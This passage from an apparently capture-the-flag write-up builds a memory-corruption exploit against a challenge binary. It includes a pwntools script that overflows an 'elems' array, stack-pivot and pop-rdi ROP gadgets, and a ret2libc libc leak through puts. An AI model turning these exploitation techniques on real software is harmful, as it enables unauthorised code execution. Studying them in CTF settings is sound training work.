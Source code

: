 ```python
    if (p < (2 ** 32-1)/N):
        io = start()
        prompt(b"skuuk")
        for i in range(N):
            prompt(b"1")
            prompt(str(i*p).encode())
            prompt(str(i).encode())
        prompt(b"2")
        prompt(str(p).encode())
        log.info(io.recvuntil(b"goodbye!\n"))
        io.close()
```
Using this procedure, I found that in our case `p==59` works.
Now, we know how to arrange `atoms` to oveflow `elems` !

## Caveats
We are somewhat limited in our ability to ROP because we don't have a big overflow and the elements are arranged depending on the natural sort order of the keys, (and perhaps the order of insertions too). I will spare you the details but I decided to rely on a stack pivot to `username` as a result, and crafted all keys based on the address of `username` to keep the ordering of `elems` fixed. 
By overflowing, we also set the size of `elems` which determines the number of iterations of the loop in `fire_neuron` so I set it small enough to avoid a very long sequence of prints 😆.

## Exploit
- This is the stack pivot I used :
```asm
pop rsp
pop rbp
ret
```
Thus, we need to start our rop chain in `username` by some value that will be popped into `rbp`.
Here
- We also have control over `rdi` thanks to this neat gadget :
```asm
pop rdi
pop rbp
ret
```
that we can leverage to leak libc using the `plt` and `got` entries of `puts`, as in a classic ret2libc attack
- We then return to main for some more exploitation 👀
```python
pop_rdi_rbp = 0x4025e0
pop_rsp_rbp = 0x404ac7
ret = 0x40201a
rop = [0,pop_rdi_rbp, exe.got.puts, 0, exe.plt.puts, exe.sym.main]

io = start()
prompt(b"".join([p64(g) for g in rop]))

good_prime = 59
offset = 0x409eac
for i in range(32):
    prompti(1)
    if i == 24:
        prompti(offset + good_prime*i)
        prompti(2)
    else:
        prompti(offset + good_prime*i)
        prompti(pop_rsp_rbp)
prompti(2)
prompti(offset)

```